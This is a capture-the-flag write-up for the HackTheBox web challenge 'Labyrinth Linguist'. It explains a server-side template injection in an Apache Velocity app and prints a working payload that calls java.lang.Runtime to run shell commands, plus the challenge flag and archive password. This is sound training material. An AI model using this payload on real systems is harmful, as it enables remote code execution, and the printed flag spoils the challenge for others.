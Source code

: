 # Labyrinth Linguist
![Image](https://github.com/user-attachments/assets/5b22c887-ed85-4454-95c1-3c4119c5728f)

**Attachment:** [web_labyrinth_linguist.zip](https://github.com/user-attachments/files/19568963/web_labyrinth_linguist.zip)  
**Password:** hackthebox

## Writeup
![Image](https://github.com/user-attachments/assets/26bd5872-d215-4ac0-9a32-454457ecc943)

"Labyrinth Linguist" is an online text translator that converts English into a strange language called Voxalith.

Let's take a look at the source code:

![Image](https://github.com/user-attachments/assets/76f1b26d-1ff9-4da7-8528-cc1cef272b49)

![Image](https://github.com/user-attachments/assets/985097fe-ae5d-4516-baf0-25e6e86e7730)

Basically, there is only one request that accepts a parameter called `name`. It then reads the `index.html` file and inserts our parameter into it, replacing the `TEXT` field with whatever we provide. This results in a string containing our input, which is then passed to `org.apache.velocity.Template`. From there, the template is parsed and the response is returned.

This means that the Java application is vulnerable to **Server-Side Template Injection**, specifically in the **Apache Velocity** template engine.

On [this site](https://gosecure.github.io/template-injection-workshop/#6) I found a working payload:

```java
#set($x='')##
#set($rt=$x.class.forName('java.lang.Runtime'))##
#set($chr=$x.class.forName('java.lang.Character'))##
#set($str=$x.class.forName('java.lang.String'))##

#set($ex=$rt.getRuntime().exec('ls'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```

Using **BurpSuite**, I sent a request with this payload, URL-encoded it, and successfully retrieved a list of files.

![Image](https://github.com/user-attachments/assets/74d11580-b70e-4d39-9c04-13d442fb4afb)

So I simply modified the command and retrieved the flag.

![Image](https://github.com/user-attachments/assets/a95a1047-0f47-41e4-af97-f4f222f75ecb)

**HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!_b77d7026dd113c4bb5d9d1f20e63ea65}**
